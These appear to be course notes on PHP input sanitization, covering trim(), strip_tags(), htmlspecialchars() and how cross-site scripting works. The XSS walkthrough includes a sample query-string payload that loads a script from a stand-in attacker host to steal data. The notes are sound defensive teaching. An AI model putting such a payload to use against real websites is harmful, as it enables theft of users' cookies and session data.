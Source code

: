 ```yaml
---
title: PHP - Sanitization
course: SDEV255
---
```


- [Sanitization](#sanitization)
  - [Validation vs Sanitization](#validation-vs-sanitization)
  - [Purpose of Sanitization](#purpose-of-sanitization)
  - [Removing Unwanted Values](#removing-unwanted-values)
    - [trim()](#trim)
    - [strip\_tags()](#strip_tags)
  - [Escaping Values](#escaping-values)
    - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
      - [How XSS Works](#how-xss-works)
      - [XSS Example](#xss-example)
    - [htmlspecialchars()](#htmlspecialchars)
  - [Topics for Later](#topics-for-later)

# Sanitization

## Validation vs Sanitization

**Validation** - is the process of ensuring that the input matches the expected format, range, type, length, etc.

**Sanitization** - is the process of removing unwanted characters, whitespace, HTML tags, etc.

## Purpose of Sanitization

- Prevents malicious code from being injected into application
- Prevents unwanted characters from being
  - Displayed to the user
  - Stored in database
  - Stored in files
  - Sent to other applications

## Removing Unwanted Values

### trim()

- Removes whitespace from beginning and end of a string
- May optionally specify which characters to remove

```php
<?php
$cleanedInput = trim($userInput);
?>
```

### strip_tags()

- Removes HTML tags from a string
- May optionally specify which tags to allow

```php
<?php
$cleanedInput = strip_tags($userInput);
?>
```

## Escaping Values

**Escaping** - is the process of converting special characters to their HTML entity equivalents.

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** - is a type of injection attack where malicious scripts are injected into trusted websites.

The scripts may then:

- Steal cookies and session tokens
- Redirect the user to another website
- Send content to other applications

#### How XSS Works

1. Hacker visits a website and probes for query string vulnerabilities.

~~fig(40){images/hacker.jpg}

2. Hacker finds query string named `q` is not sanitized.

3. Hacker tricks other people into visiting website with following query string: `q=<script src=http://really-terrible-site/steal-data.js></script>`

4. JS file runs on victim's browser and sends data to hacker's website.

5. Hacker sells data on the dark web and buys yacht.

~~fig(40){https://media.boatsnews.com/src/images/news/articles/ima-computer-science-screen-37738.webp}

#### XSS Example

<p class="demo">Walkthrough</p>

[Text: Example of an XSS Attack](http://localhost/phpbook/section_b/c06/)

### htmlspecialchars()

- Converts special characters to HTML entities
- May optionally specify which characters to convert and the character encoding

```php
<?php
$input = '<script>alert("XSS");</script>';
?>

<p><?php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ?></p
```

## Topics for Later

We have not covered these yet, but santization is also important for:

- Database queries
- File uploads
